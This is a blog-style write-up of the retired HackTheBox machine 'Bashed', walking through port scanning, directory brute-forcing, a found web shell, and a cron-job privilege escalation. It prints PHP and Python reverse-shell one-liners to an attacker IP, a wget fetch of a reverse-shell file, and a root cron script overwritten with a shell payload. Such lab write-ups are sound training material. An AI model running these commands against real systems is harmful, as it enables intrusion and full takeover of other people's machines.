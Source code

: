 ```yaml
---
layout: post
title: HacktheBox - Bashed
subtitle: Retired Machine
tags: [htb]
comments: false
---
```


## Bashed ![propic](/pictures/bashed/bashedpic.png)

Start off with a network scan:
```
nmap -sV -sC -Pn -oA nmap/bashed 10.10.10.68
```
![bashednmap](/pictures/bashed/bashednmap.png)

There is an open port 80 (http) from the default nmap script. We can visit the web page from your browser to look for clues.

![bashedhomepage](/pictures/bashed/bashed_homepage.png)

There is nothing too interesting from the initial look so I will run gobuster to identify any hidden directories.

```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
![basheddirb](/pictures/bashed/bashed_dirb.png)

Off the bat, there are several subdirectories that pop up. I navigate to /dev and see the phpbash.php file. I click on the php file and obtain a webshell.

![bashedwebshell](/pictures/bashed/bashed_webshell.png)

Next, I want to create a persistent/reverse shell, so I create a listener with netcat:
```
nc -lvnp 1234
```
Once the listener is running, I google pentestmonkey reverse shell cheat sheet and look for a php reverse shell command:
```
php -r '$sock=fsockopen("10.10.14.8",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
This does not work, so I navigate to /var/www/html and view the uploads directory since that was a listed subdirectory that can be hit from the web i.e. 10.10.10.68/uploads.

From my attacker box, I run the command below to find a php reverse shell file to upload to the target based on the following keywords:
```
locate php reverse
```
I moved the php-reverse-shell.php file to /tmp. I update the file to listen on my attacker host ip and started up an http server via python with the following commands:
```
cp -r /usr/share/webshells/php/php-reverse-shell.php /tmp/php-reverse-shell.php
cd /tmp
python3 -m http.server 80
```
Now that the attacker box's http server is up and running, I can run wget from /var/www/html/uploads to obtain the file from the target's box through the obtained web shell:
```
wget 10.10.14.8/php-reverse-shell.php
```
Next, I ensure my netcat listener is still active over port 1234 and navigate to 10.10.10.68/uploads/php-reverse-shell.php on my browser. 

And voila, I have a reverse shell. I run the following command to upgrade the shell to a TTY:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Next is to escalate privileges. To check my current permissions, I run the command:

```
sudo -l
```
This lists that I can run all commands under the user: scriptmanager.

So, I can go ahead and run the command to get a bash shell as the scriptmanager user:
```
sudo -u scriptmanager bash
```
I run an ls-la and see that scriptmanager owns scripts/test.py which is writing to scripts/test.txt. It appears that test.txt is owned under root.

Since test.py is writing to test.txt, this means that root has a cronjob scheduled for this python script to run. This means that if the python script runs a reverse shell, it will be under root since root has the job under its ID.So, I open up a reverse shell cheatsheet from pentestmonkey and look for a python reverse shell.

I attempt to update the script via vim, but the text editor is wonky. So, I decide to delete the file's content with the command:
```
sed -i "d" test.py
```
Next, I echo each line into the python file:
```
echo 'import socket,subprocess,os' >> test.py
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >> test.py
echo 's.connect(("10.10.14.8",1234))' >> test.py
echo 'os.dup2(s.fileno(),0)' >> test.py
echo 'os.dup2(s.fileno(),1)' >> test.py
echo 'os.dup2(s.fileno(),2)' >> test.py
echo 'p=subprocess.call(["/bin/sh","-i"])' >> test.py
cat test.py
```
The cat command will show the contents of test.py having all the required lines for the reverse shell to complete. Next, I open up the listener via netcatover 1234 on my attack box, and get the root reverse shell.

![bashedroot](/pictures/bashed/bashed_root.png)
